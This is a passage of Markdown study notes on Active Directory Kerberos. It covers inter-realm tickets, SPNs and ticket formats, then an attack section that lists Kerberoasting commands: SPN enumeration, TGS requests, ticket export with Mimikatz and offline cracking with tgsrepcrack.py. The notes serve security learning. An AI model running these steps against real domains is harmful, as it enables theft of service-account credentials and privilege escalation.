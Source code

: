 - Instead of encrypting with Domain1’s **krbtgt** account, a ticket is encrypted/signed with the inter-realm trust key that the domains previously exchanged, which is called as an “**Inter-realm ticket-granting-ticket/TGT.**” 
- Then Domain2 verifies the TGT included in the referral, decrypts it with the previously negotiated inter-realm trust key and proceeds further. An inter-realm TGT can be forged. 

### Other 

**Services (Microsoft Implementation)**

- When a domain account is configured to run a service (ex: MS SQL) in the environment, a **Service Principal Name (SPN)** is used in the domain to **associate the service with a login account**.

**krbtgt password**

- Changes with domain functional level update (ex: NT5 -> NT6)
- Recovery from restore media 
- Manually changed (compromise recovery)

**Formats**

- Encoded in `ASN.1`
- Kerberos Tickets are in `KRB-CRED` format: `RFC4120`
- Microsoft Specific `PAC` format: `cc237917`

## Attack Patterns 

### Kerberos brute-force

- Automated continued attempts to guess a password

### ASREPRoast

### Kerberoast

- TGS has server position encrypted using service account password hash. 
  - User can use the TGT to request TGS for any service (no authorization check)
- Use this to crack the service account password offline.
- Service account are sometimes ignored and may have privileged access. 
- Hash could be used to create **Silver Tickets**
- Tim Medin DebyCon 2014

- Find Service Accounts: 
  - `GetUserSPNs` 
  - Powerview: `Get-NetUser -SPN`
  - AD nodule: `Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName`
- Request Ticket (TGS):
  - `Add-Type -AssemblyName System.IdentityModel`
  - `New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "<ServicePrincipalName from above commands>"`
  - PowerView:
    - `Request-SPNTicket`
  - `klist` to verify the ticket 
  - Store to disk using: `Invoke-Mimikatz -Command '"kerberos::list /export"'`
- Crack:
  - `.\tgsrepcrack.py .\passwords.txt 'file.kirbi'`
